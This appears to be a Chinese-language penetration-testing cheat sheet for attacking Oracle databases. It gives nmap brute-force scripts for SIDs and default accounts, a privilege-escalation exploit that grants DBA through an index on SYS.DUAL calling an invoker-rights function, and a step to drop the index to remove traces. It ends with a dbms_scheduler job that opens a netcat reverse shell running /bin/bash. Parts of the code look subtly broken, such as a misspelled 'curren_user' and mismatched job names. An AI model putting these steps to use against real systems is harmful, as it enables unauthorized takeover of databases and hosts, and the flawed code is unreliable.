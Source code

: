 下面的展示使用SCOTT用户，但其他默认的Oracle用户也是可以的。

##### 使用NMAP NSE脚本验证oracle数据库中的默认账户：

```
nmap --script=oracle-sid-brute 
nmap --script=oracle-brute 
```

使用脆弱账号登陆（假设你发现了一个）。

##### 确认一个oracle用户的权限级别

```
SQL> select * from session_privs; 

SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid 
curren_user is 
pragma autonomous_transaction; 
begin 
execute immediate 'grant dba to user1 identified by pass1';
commit;
return 'FOO';
end;
```

##### Oracle权限提升和访问DBA

运行netcat，`netcat -nvlp 443` 。

```
SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));
```

##### 运行查询语句

```
SQL> Select * from session_privs; 
```

这时你应该拥有一个DBA用户，可以重新运行上面的命令来验证自己是否拥有DBA特权。

##### 移除利用痕迹：

```
drop index exploit_1337; 
```

##### 获取Oracle反弹shell：

```
begin
dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end; 
```

